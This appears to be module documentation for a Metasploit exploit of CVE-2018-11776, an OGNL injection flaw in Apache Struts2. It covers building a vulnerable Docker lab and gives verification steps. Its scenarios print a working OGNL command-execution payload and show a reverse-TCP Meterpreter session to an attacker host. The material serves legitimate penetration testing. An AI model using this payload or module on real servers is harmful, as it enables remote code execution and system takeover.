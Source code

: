CVE-2018-11776 is a critical vulnerability in the way Apache Struts2 handles namespaces and redirection, which permits an attacker to execute [OGNL(https://commons.apache.org/proper/commons-ognl/language-guide.html) remotely.  Using OGNL, the attacker can modify files and execute commands.

The vulnerability was reported to Apache by [Man Yue Mo] from Semmle in April 2018.  It was widely publicized in August 2018, with PoCs appearing shortly thereafter.

Tomcat versions prior to 7.0.88 will provide output from the injected OGNL and require that we prepend some OGNL to set `allowStaticMethodAccess=true`. Versions starting at 7.0.88 do not provide OUTPUT from injected OGNL and will error if we attempt to modify `allowStaticMethodAccess`.  The `ENABLE_STATIC` option is used to toggle behavior, and the `check` method fingerprints the correct version.

As a result of the lack of OGNL output, we currently cannot support large payloads (namely Windows Meterpreter payloads) on Tomcat versions >= 7.088. Future committers might consider compressing the windows/x64/meterpreter templates or implementing GZIP compression of payloads.



## Vulnerable Application

The Struts showcase app, with a slight adaptation to introduce the vulnerability, works reliably as a practice environment.
*@hook-s3c* did an amazing job with [their writeup](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC/blob/master/README.md), which I'll include excerpts of here:

1. From a stock Ubuntu VM, install docker:

    ```
    sudo apt update && sudo apt install docker.io
    ```

2. Download a vulnerable Struts showcase application inside a docker container:

    ```
    sudo docker pull piesecurity/apache-struts2-cve-2017-5638
    sudo docker run -d --name struts2 -p 32771:8080 piesecurity/apache-struts2-cve-2017-5638
    CONTAINER_ID=`sudo docker ps -l -q`
    ```

3. Now that the container is running, open a terminal inside of it:

    ```
    sudo docker exec -it $CONTAINER_ID /bin/bash
    ```

4. From within the container, install your text editor of choice and modify the Struts configs:

    ```
    sudo apt update && sudo apt install nano
    nano /usr/local/tomcat/webapps/ROOT/WEB-INF/classes/struts.xml
    ```

5. Update the struts config to add this to above line #11:

    ```
    &lt;constant name=&quot;struts.mapper.alwaysSelectFullNamespace&quot; value=&quot;true&quot; /&gt;
    ```

6. Update the same struts config file to add this above line #78:

    ```
    &lt;action name=&quot;help&quot;&gt;
        &lt;result type=&quot;redirectAction&quot;&gt;
            &lt;param name=&quot;actionName&quot;&gt;date.action&lt;/param&gt;
        &lt;/result&gt;
    &lt;/action&gt;
    ```

7. Still within the container, shutdown the environment:

    ```
    /usr/local/tomcat/bin/shutdown.sh
    ```

8. Upon completion, the container will shutdown and you'll return to the host environment.  Restart the container, now with a vulnerable endpoint:

    ```
    sudo docker start $CONTAINER_ID
    ```

Congratulations.  You now have a vulnerable Struts server.  If you're following these instructions, your server should be listening on 0.0.0.0:32771.  To confirm:

```
INTERFACE=`ip route list 0.0.0.0/0 | cut -d' ' -f5`
IPADDRESS=`ip addr show $INTERFACE | grep -Po 'inet \K[\d.]+'`
PORT_NUM=`sudo docker port $CONTAINER_ID | sed 's/.*://'`
echo "Struts container is listening on $IPADDRESS:$PORT_NUM"
```

## Verification Steps

  Confirm that check functionality works:

  - [ ] Install the application using the steps above.
  - [ ] Start msfconsole.
  - [ ] Load the module: `use exploit/multi/http/struts_namespace_ognl`
  - [ ] Set the RHOST.
  - [ ] Set an invalid ACTION: `set ACTION wrong.action`
  - [ ] Confirm the target is *not* vulnerable: `check`
  - [ ] Observe that the target is *not* vulnerable: `The target is not exploitable.`
  - [ ] Set a valid ACTION: `set ACTION help.action`
  - [ ] Confirm that the target is vulnerable: `The target is vulnerable.`

  Confirm that command execution functionality works:

  - [ ] Set a payload: `set PAYLOAD cmd/unix/generic`
  - [ ] Set a command to be run: `set CMD hostname`
  - [ ] Run the exploit: `run`
  - [ ] Confirm the output is the container ID of your docker environment, e.g: `b3d9b350d9b6`
  - [ ] You will not be given a shell (yet).

  Confirm that payload upload and execution works:

  - [ ] Set a payload, e.g.: `set PAYLOAD linux/x64/meterpreter/reverse_tcp`
  - [ ] Configure `LHOST` and `RHOST` as necessary.
  - [ ] Run the exploit: `run`

## Options

### TARGETURI

  The path to the struts application.  Note that this does not include the endpoint.  In the environment above, the path is `/`.

### ACTION

  The endpoint name.  In the environment above, the endpoint is `help.action`.

## Scenarios

### Version of software and OS as applicable

Checking a vulnerable endpoint, as installed in the above steps:

```
msf > use exploit/multi/http/struts_namespace_ognl
msf exploit(multi/http/struts_namespace_ognl) > set RHOSTS 192.168.199.135
msf exploit(multi/http/struts_namespace_ognl) > set RPORT 32771
msf exploit(multi/http/struts_namespace_ognl) > set ACTION help.action
ACTION => help.action
msf exploit(multi/http/struts_namespace_ognl) > check
[+] 192.168.199.135:32771 The target is vulnerable.
```

Running an arbitrary command on the above-described environment:

```
msf exploit(multi/http/struts_namespace_ognl) > set VERBOSE true
msf exploit(multi/http/struts_namespace_ognl) > set PAYLOAD cmd/unix/generic
PAYLOAD => cmd/unix/generic
msf exploit(multi/http/struts_namespace_ognl) > set CMD hostname
CMD => hostname
msf exploit(multi/http/struts_namespace_ognl) > run
[*] Submitted OGNL: (#_memberAccess['allowStaticMethodAccess']=true).(#cmd='hostname').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())

[*] Command ran.  Output from command:
b3d9b350d9b6

[*] Exploit completed, but no session was created.
msf exploit(multi/http/struts_namespace_ognl) >
```

Getting a Meterpreter session on the above-described environment:

```
msf > use exploit/multi/http/struts2_namespace_ognl
msf exploit(multi/http/struts2_namespace_ognl) > set ACTION help.action
msf exploit(multi/http/struts2_namespace_ognl) > set RHOSTS 192.168.199.135
msf exploit(multi/http/struts2_namespace_ognl) > set RPORT 32771
msf exploit(multi/http/struts2_namespace_ognl) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/struts2_namespace_ognl) > set LHOST 192.168.199.134
msf exploit(multi/http/struts2_namespace_ognl) > run

[*] Started reverse TCP handler on 192.168.199.134:4444
[+] Target profiled successfully: Linux 4.4.0-112-generic amd64, running as root
[+] Payload successfully dropped and executed.
[*] Sending stage (816260 bytes) to 192.168.199.135
[*] Meterpreter session 1 opened (192.168.199.134:4444 -> 192.168.199.135:47482) at 2018-08-31 13:15:22 -0500

meterpreter >
```

